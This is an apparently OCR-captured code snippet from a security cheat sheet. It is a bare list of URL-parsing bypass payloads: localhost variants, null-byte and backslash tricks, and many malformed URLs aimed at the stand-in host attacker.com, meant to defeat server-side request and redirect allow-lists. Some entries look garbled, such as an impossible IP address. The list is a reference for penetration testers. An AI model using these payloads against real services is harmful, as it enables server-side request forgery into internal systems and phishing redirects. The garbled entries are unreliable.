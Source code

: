 ```xml
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\\@127.2.2.2:80/
127.1.1.1:80\\@@127.2.2.2:80/
127.1.1.1:80:\\@@127.2.2.2:80/
127.1.1.1:80#\\@127.2.2.2:80/
```

# Domain

```bash
https:attacker.com
https:/attacker.com
http:/\\/\\attacker.com
https:/\\attacker.com
//attacker.com
\\/\\/attacker.com/
/\\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
<http://169.254.1698.254\\@attacker.com>
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
<https://{domain}@attacker.com>
https://{domain}.attacker.com
<https://{domain}%6D@attacker.com>
<https://attacker.com/{domain}>
<https://attacker.com/?d={domain}>
<https://attacker.com#{domain}>
<https://attacker.com>@{domain}
<https://attacker.com#@{domain}>
<https://attacker.com>%23@{domain}
<https://attacker.com>%00{domain}
<https://attacker.com>%0A{domain}
<https://attacker.com?{domain}>
<https://attacker.com///{domain}>
<https://attacker.com>\\{domain}/
<https://attacker.com>;https://{domain}
<https://attacker.com>\\{domain}/
<https://attacker.com>\\.{domain}
<https://attacker.com/.{domain>}
<https://attacker.com>\\@@{domain}
<https://attacker.com>:\\@@{domain}
<https://attacker.com#\\@{domain}>
<https://attacker.com>\\anything@{domain}/
<https://www.victim.com>(\\u2044)some(\\u2044)path(\\u2044)(\\u0294)some=param(\\uff03)hash@attacker.com
```